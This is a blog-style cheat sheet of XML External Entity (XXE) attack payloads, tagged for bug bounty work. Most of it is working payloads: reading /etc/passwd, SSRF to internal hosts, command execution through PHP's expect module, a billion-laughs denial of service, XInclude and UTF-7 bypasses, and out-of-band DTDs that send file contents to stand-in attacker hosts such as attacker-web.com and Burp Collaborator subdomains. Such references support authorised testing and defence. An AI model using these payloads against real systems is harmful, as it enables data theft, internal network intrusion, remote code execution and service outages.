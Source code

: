 ```yaml
---
layout: post
title:  "XXE Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/158905099-e3bd6d01-a91d-486b-8d64-db4dd55f97cd.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

XXE (XML External Entity) attacks are vulnerabilities that arise in applications that parse XML input. Thanks to this an attacker could alter the XML data in the request to execute an attack.

# Table of Contents
1. [Dangers in XXE attacks](#DangersXXE)
2. [Payloads](#XXEpayloads)<br>
   2.1. [XXE to LFI](#XXEtoLFI)<br>
   2.2. [XXE to SSRF](#XXEtoSSRF)<br>
   2.3. [XXE to RCE](#XXEtoRCE)<br>
   2.4.  [XXE to DOS](#XXEtoDOS)
6. [Blind on request](#BlindXXE)
7. [Bypass XXE](#XXEBypass)
8. [Out-Of-Band](#OutOFBand)

---

### Dangers in XXE attacks <a name="DangersXXE"></a>
- **Exfiltrate critical information:**<br>
It
would be possible to obtain internal files from the server, which is dangerous.<br>
Example: 
[XXE to LFI](#XXEtoLFI)
- **Enumerate ports and domains in addresses internal to the network:**<br>
Through the requests enumerate the network.<br>
Example: 
[XXE to SSRF](#XXEtoSSRF)
- **See open ports at other external addresses:**<br>
 List ports using requests.
- **Execute code:** <br>
If the server has the PHP "expect" module, it would be possible to execute code and be able to execute commands.<br>
Example: 
[XXE to RCE](#XXEtoRCE)
- **Denial of service:**
Causes a denial of service by repeated calls in entitys functions.<br>
Example: 
[XXE a DOS](#XXEtoDOS)

---

###  XXE payloads <a name="XXEpayloads"></a>
**LFI Test** <a name="XXEtoLFI"></a><br>
View internal server files

```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

**XXE a SSRF** <a name="XXEtoSSRF"></a><br>
List the local network of the server
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://192.168.0.1">]>
<foo>&xxe;</foo>
```

**XXE a RCE** <a name="XXEtoRCE"></a><br>
Abusing the expect module of php to execute commands (It is required to have this module on the server)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
    <checkproduct>
       <productId>&xxe;</productId>
       <storeId>2</storeId>
    </checkproduct>
```
**XXE a DOS** <a name="XXEtoDOS"></a><br>
Cause a denial of service by repeatedly calling entity's functions
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
---

### XXE blind on request <a name="BlindXXE"></a>
**See if there is an XXE without it being seen in the request**

One way to identify an XML blind in a request: If the application embeds the submitted data in an XML document and then parses the document as it passes in a backend SOAP request.
We can try injecting XInclude which is a part of the XML specification that allows you to create an XML document from subdocuments..<br>
Example:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>



    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

 **This could also be used in case it is blind**
 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="http://attacker-web.com"/></foo>&storeId=1
```

**Blind XXE test (When it does not return values)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://subdomain.burpcolaborator.net/?%xxe;">]>
<foo>&blind;</foo>
```
---
### XXE bypass <a name="XXEBypass"></a>
**XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://attacker-web.com+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

**Access Control bypass (loading sensitive data)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY cargar SYSTEM "php://filter/read=convert.base64-encode/resource=http://vulnerable-web.com/config.php">]>
<foo><result>&cargar;</result></foo>
```

---

### XXE Out-Of-Band: <a name="OutOFBand"></a>

**EXAMPLE 1**
- It is injected into the value &xxe; in one of the xml values that are sent.

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker-web.com"> ]>
```

**EXAMPLE 2**
- Payload that we will include completely in the xml value that is sent. It will make a request to the attacker's website, so we can know if it really processes the information we send it.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker-web.com"> %xxe; ]>
```

**EXAMPLE 3**
- Code from http://web-atacante.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://subdominio.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

- XML injection before the values of the page, it will inject the code of cositas.dtd in the page

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker-web.com/cositas.dtd"> %xxe;]>
```

**EXAMPLE 4**
- XXE BLIND based on error message
- Code from http://attacker-web.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///notexist/%file;'>">
%eval;
%error;
```

- XML injection in the page, it will inject the code of cositas.dtd

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker-web.com/cositas.dtd"> %xxe;]>
```

**EXAMPLE 5**
- Exploiting an XXE by abusing the system's DTD files, in the file it calls ISOamso, we will use that variable to exploit the XXE by creating a custom xml that performs the function of calling the /etc/passwd file that is the target.

```xml
<!DOCTYPE foo [
<!ENTITY % el_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
  <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; variable "
      <!ENTITY &#x26;#x25; errormensaje SYSTEM &#x27;file:///notexist/&#x25;file;&#x27;>
  ">
  &#x25;variable;
  &#x25;errormensaje;
'>%el_dtd;]>
```
